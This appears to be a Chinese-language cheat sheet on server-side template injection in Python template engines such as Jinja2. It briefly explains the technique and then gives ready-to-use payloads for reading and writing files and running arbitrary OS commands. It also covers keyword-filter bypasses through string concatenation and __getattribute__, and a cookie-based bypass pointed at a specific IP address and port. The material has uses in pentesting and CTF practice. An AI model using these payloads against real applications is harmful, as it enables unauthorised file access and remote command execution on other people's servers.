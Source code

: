 ﻿# 服务器端模板注入(SSTI)

标签（空格分隔）： 未分类

---

##什么是服务器端模板
服务器端模板提供了一种简单的方法来管理动态生成的HTML代码，优点就是可以在服务器端动态生成HTML页面，使代码更加简单易于管理与修改，避免了如HTML代码和PHP代码复杂的混合在一起，变量难以辨认等状况。
##模板注入原理
模板注入涉及的是服务端Web应用使用模板引擎渲染用户请求的过程，由于模板引擎支持使用静态模板文件，并在运行时用HTML页面中的实际值替换变量/占位符从而使html设计变得简略，目前常用模板有Smarty、Twig、Jinja2、FreeMarker和Velocity。
##常用payload
一般来说，ssti可以用于xss，当测试有触发xss时可以进一步考虑模板注入。
以下给出一些常用payload。

    //读文件
    ().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()
     
    //写文件
    ().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')
     
    //执行任意命令
    ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
  

    #命令执行：
    {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
    #文件操作
    {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}  
##绕过方式
在实际使用时我们往往要面对各种各样的限制，这时候就需要使用如拼接绕过，参数绕过等方法。
1.拼接绕过
由于在模板的url路径中是支持字符串连接的，所以可以如下利用

    request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]
函数名也可以

    ().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').re'+'ad()
在躲避关键字检查时可以利用getattribute函数进行拼接

    ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]
     
    # 进行关键字绕过
    ().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__('func_global'+'s')['linecache']

2.参数绕过
可以利用request.form, request.args,request.values这三个函数，实现在cookie拼接绕过。

    url = '''http://47.96.118.255:2333/{{''[request.cookies.a][request.cookies.b][2][request.cookies.c]()[40]('a.php')[request.cookies.d]()}}'''
     
    cookies = {}
    cookies['a'] = '__class__'
    cookies['b'] = '__mro__'
    cookies['c'] = '__subclasses__'
    cookies['d'] = 'read'

##总结
1.注意环境是python2还是python3，一般python2有的python3都有。
2.若类中有file，考虑读写操作
3.若类中有<class 'warnings.WarningMessage'>，考虑从.__init__.func_globals.values()[13]获取eval，map等等；又或者从.__init__.func_globals[linecache] 得到os
4.若类中有<type 'file'>，<class 'ctypes.CDLL'>，<class 'ctypes.LibraryLoader'>，考虑构造so文件
5.注意导入模块的方式

